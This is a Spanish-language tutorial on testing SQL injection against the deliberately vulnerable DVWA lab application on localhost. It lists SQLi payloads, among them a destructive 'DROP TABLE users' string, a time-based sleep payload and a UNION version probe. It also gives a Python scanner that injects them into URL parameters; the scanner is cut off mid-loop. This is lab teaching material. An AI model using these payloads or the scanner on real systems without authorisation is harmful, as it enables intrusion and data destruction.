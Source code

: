 
### 📦 Aplicación vulnerable para pruebas (DVWA)

Instala DVWA (Damn Vulnerable Web Application):

- Sitio: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)
- Requiere Apache + PHP + MySQL (XAMPP, WAMP, o Docker)

Accede a: `http://localhost/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit`

---

### 💉 Payloads comunes de SQLi

```python
payloads = [
    "' OR '1'='1",
    "' OR 1=1 --",
    "'; DROP TABLE users; --",
    "\" OR \"1\"=\"1",
    "' OR sleep(5)--"
]
```

---

### 🧾 Script completo: `sqli_scanner.py`

```python
import requests
import urllib.parse

# Payloads típicos para probar SQL Injection
payloads = [
    "' OR '1'='1",
    "' OR 1=1 --",
    "' OR sleep(5)--",
    "\" OR \"1\"=\"1",
    "' AND 1=2 UNION SELECT NULL, version()--"
]

# Función que prueba SQLi en una URL
def test_sql_injection(url):
    vulnerable = False
    print(f"🔍 Escaneando: {url}")

    for payload in payloads:
        # Separar base y parámetros
        parsed = urllib.parse.urlparse(url)
        params = urllib.parse.parse_qs(parsed.query)

        # Inyectar el payload en cada parámetro
        for param in params:
            original = params[param][0]
            params[param][0] = original + payload

            # Reconstruir la URL con el payload
            new_query = urllib.parse.urlencode(params, doseq=True)
            new_url = f"{parsed.scheme}://{parsed.netloc}{parsed.path}?{new_query}"

            print(f"➡️ Probando: {new_url}")
            try:
                res = requests.get(new_url)
                if "You have an error in your SQL syntax" in res.text or "sql" in res.text.lower():
                    print(f"🚨 ¡Vulnerabilidad detectada con payload: {payload}")
                    vulnerable = True
```
